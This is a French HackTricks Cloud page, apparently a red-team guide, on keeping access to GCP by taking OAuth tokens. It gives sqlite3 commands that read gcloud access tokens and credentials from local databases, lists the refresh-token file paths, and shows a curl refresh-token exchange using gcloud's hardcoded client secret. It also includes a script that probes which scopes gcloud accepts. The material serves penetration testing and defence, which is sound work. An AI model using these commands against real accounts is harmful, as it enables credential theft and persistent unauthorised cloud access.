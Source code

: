 # GCP - Persistance de Token

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Tokens d'Utilisateur Authentifié

Pour obtenir le **token actuel** d'un utilisateur, vous pouvez exécuter :

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Vérifiez sur cette page comment **utiliser directement ce jeton avec gcloud** :

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Pour obtenir les détails pour **générer un nouveau jeton d'accès**, exécutez :

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Il est également possible de trouver des jetons de rafraîchissement dans **`$HOME/.config/gcloud/application_default_credentials.json`** et dans **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Pour obtenir un nouveau jeton d'accès rafraîchi avec le **jeton de rafraîchissement**, l'ID client et le secret client, exécutez :

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validité des jetons de rafraîchissement peut être gérée dans **Admin** > **Sécurité** > **Contrôle de session Google Cloud**, et par défaut, elle est définie sur 16h bien qu'elle puisse être réglée pour ne jamais expirer :

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Flux d'authentification

Le flux d'authentification lors de l'utilisation de quelque chose comme `gcloud auth login` ouvrira une invite dans le navigateur et après avoir accepté tous les scopes, le navigateur enverra une requête comme celle-ci au port http ouvert par l'outil :
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Ensuite, gcloud utilisera l'état et le code avec un `client_id` codé en dur (`32555940559.apps.googleusercontent.com`) et **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) pour obtenir les **données finales du jeton de rafraîchissement**.

{% hint style="danger" %}
Notez que la communication avec localhost se fait en HTTP, il est donc possible d'intercepter les données pour obtenir un jeton de rafraîchissement, cependant ces données ne sont valides qu'une seule fois, donc cela serait inutile, il est plus facile de simplement lire le jeton de rafraîchissement à partir du fichier.
{% endhint %}

### Portées OAuth

Vous pouvez trouver toutes les portées Google sur [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ou les obtenir en exécutant :

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Il est possible de voir quels scopes l'application que **`gcloud`** utilise pour s'authentifier peut prendre en charge avec ce script :
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Après l'exécution, il a été vérifié que cette application prend en charge ces portées :
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
c'est intéressant de voir comment cette application prend en charge le **`drive`** scope, ce qui pourrait permettre à un utilisateur d'escalader de GCP à Workspace si un attaquant parvient à forcer l'utilisateur à générer un token avec ce scope.

**Vérifiez comment** [**en abuser ici**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Comptes de service

Tout comme avec les utilisateurs authentifiés, si vous parvenez à **compromettre le fichier de clé privée** d'un compte de service, vous pourrez **y accéder généralement aussi longtemps que vous le souhaitez**.\
Cependant, si vous volez le **token OAuth** d'un compte de service, cela peut être encore plus intéressant, car, même si par défaut ces tokens ne sont utiles que pendant une heure, si la **victime supprime la clé API privée, le token OAuth restera valide jusqu'à son expiration**.

### Métadonnées

Évidemment, tant que vous êtes à l'intérieur d'une machine fonctionnant dans l'environnement GCP, vous pourrez **accéder au compte de service attaché à cette machine en contactant le point de terminaison des métadonnées** (notez que les tokens OAuth auxquels vous pouvez accéder à ce point de terminaison sont généralement restreints par des scopes).

### Remédiations

Certaines remédiations pour ces techniques sont expliquées dans [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### Références

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Apprenez & pratiquez le hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez & pratiquez le hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
